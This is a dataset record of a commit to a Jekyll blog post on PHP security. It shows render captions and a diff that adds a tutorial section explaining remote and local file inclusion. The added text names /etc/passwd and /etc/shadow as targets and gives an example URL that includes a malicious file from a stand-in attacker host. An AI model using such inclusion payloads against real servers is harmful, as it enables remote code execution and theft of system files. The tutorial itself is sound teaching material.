

Before and after one commit to 20kilograma/blog, a Jekyll site: the page built from php-sec.md, in a window 1280 px wide and 900 px high, scrolled down 8729 px. Shown: the whole window, without its empty margins (108-1161 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 9206 px from its top, so only the background shows below that.

Commit message:
Update php-sec.md

```diff
--- a/php-sec.md
+++ b/php-sec.md
@@ -166,3 +166,13 @@ An example for this is let's say you have a Self-XSS on your account, what you c
 From that, you can create a very nice phishing attack, like <i>We are sorry, could you re-login here</i>...<br><br>
 
 ## File Inclusions/Path Traversals
+
+Next on the list we have RFI/LFI and Path Traversals. File Inclusions are mostly found in PHP Applications, they are the result of using <code>include()</code> function incorrectly. People sometimes can't make the difference between those two similiar vulnerabilities, that's okay because here I'll try to explain it on some easy examples.
+Let's see now:
+The easiest way to explain it:
+When an attacker is exploiting RFI he uses a Remote File while on the other side LFI uses local files when they are attacking server, even the name of the vulnerability tells you that. While exploiting LFI you can get response from the local files on system, for example <code>/etc/passwd</code> or <code>/etc/shadow</code>.
+
+On the other hand while exploiting RFI you can upload file from remote server which in 99% of the times will result in RCE(Remote Code Execution). Nowadays it's very rare to see RFI in the wild because including files from remote location is disabled in PHP by default (<code>allow_url_include</code>).
+For example <code>https://localhost/app.php?file=http://attackers.website.com/somemaliciousfile</code>. You could execute malicious code from the <code>somemaliciousfile</code> file and use it for evil intention.
+
+LFI is way more popular than RFI because nowadays it is way easier to protect against including Remote Malicious Files, but you never know 🙂.
```
